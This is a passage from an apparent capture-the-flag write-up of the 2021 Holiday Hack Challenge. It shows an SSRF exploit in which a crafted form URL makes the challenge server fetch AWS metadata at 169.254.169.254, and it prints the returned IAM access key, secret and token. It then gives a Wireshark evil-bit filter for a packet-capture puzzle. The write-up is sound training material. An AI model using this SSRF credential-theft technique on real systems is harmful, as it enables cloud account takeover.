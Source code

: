 Did the server make that request on our behalf though? Try using cURL on that same endpoint:

```shell
$ curl https://apply.jackfrosttower.com/images/Suzanne%20Hart.jpg
latest
```

Bingo! The request was made on our behalf and the result is there. Now, we can modify the form submission URL to pull out the information that we need. The key is what was hinted at in the IMDS challenge - the IAM security credentials. Modify the application to hit the `/latest/meta-data` endpoint and look for `iam/security-credentials` when using the above cURL command. You'll see one for `jf-deploy-role` so update the application to `/latest/meta-data/iam/security-credentials/jf-deploy-role`:

https://apply.jackfrosttower.com/?inputName=Suzanne+Hart&inputEmail=sh%40troll.com&inputPhone=1&inputField=Throwing+rocks+%28at+people%29&resumeFile=&inputWorkSample=http%3A%2F%2F169.254.169.254%2Flatest%2Fmeta-data%2Fiam%2Fsecurity-credentials%2Fjf-deploy-role&additionalInformation=&submit=


Like before, use cURL to read the response and get the secret access key:

```shell
curl https://apply.jackfrosttower.com/images/Suzanne%20Hart.jpg
{
	"Code": "Success",
	"LastUpdated": "2021-05-02T18:50:40Z",
	"Type": "AWS-HMAC",
	"AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
	"SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
	"Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
	"Expiration": "2026-05-02T18:50:40Z"
}
```

### 11. Customer Complaint Analysis
#### Difficulty
2/5

#### Description
A human has accessed the Jack Frost Tower network with a non-compliant host. [Which three trolls complained about the human](https://downloads.holidayhackchallenge.com/2021/jackfrosttower-network.zip)? Enter the troll names in alphabetical order separated by spaces. Talk to Tinsel Upatree in the kitchen for hints.

#### Solution

After talking to Tinsel Upatree, we learn about the "evil bit". Given the context, compliance here means setting the "evil bit" to 1, so first look for any HTTP activity with that not set with the following filters in Wireshark (the PCAP is in the zip linked in the description):

```
ip.flags.rb == 0 and http
```

This brings up a complaint from a Muffy VonDuchess Sebastian in room 1024 (information is from the POST request Muffy made to the complaint endpoint). Create another search to see which trolls complained about the guest in that room. The complaints were made by Flud, Hagg, and Yaqh:
